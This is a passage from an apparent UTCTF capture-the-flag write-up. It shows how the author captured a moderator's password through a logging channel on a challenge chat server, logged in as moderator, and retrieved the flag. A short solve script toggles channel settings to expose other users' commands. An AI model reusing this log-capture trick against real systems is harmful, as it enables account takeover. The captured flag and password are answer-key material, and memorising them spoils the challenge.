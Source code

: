 We can now see all the logs of every command executed by any user!

Eventually the moderator log's in and we get the following:
![creds.png](images/25-utctf/creds.png)

We can now `/login unbroken-sandpit-scant-unmixable` to the moderator:
```
Correct; logging in as moderator.
```

I try to visit `mod-info` and we successfully switch!
```
Switched to channel 'mod-info'
```

I run `/channel` to view the channel information:
```
Channel 'mod-info':
- description: Congradulations on becoming a moderator!  The flag is utflag{32c6FLiaX5in9MhkPNDeYBUY}.
- slowmode: 0.05
- hidden: false
- immutable: true
- owner: 0000000000000
- current users: 1
- admin-only: false
- mod-only: true
- mode: normal
```

Flag: `utflag{32c6FLiaX5in9MhkPNDeYBUY}`

### Better Code

This was also shared in the Discord server after the CTF ended as a more efficient solve script:
```js
await websocket.send_str('/create newlog')
await websocket.send_str('/join newlog')
await websocket.send_str('/set channel.hidden true')
await websocket.send_str('/set channel.admin-only true')
await websocket.send_str('/set channel.mode log')
await websocket.send_str('/set channel.admin-only false')
```

Much cleaner!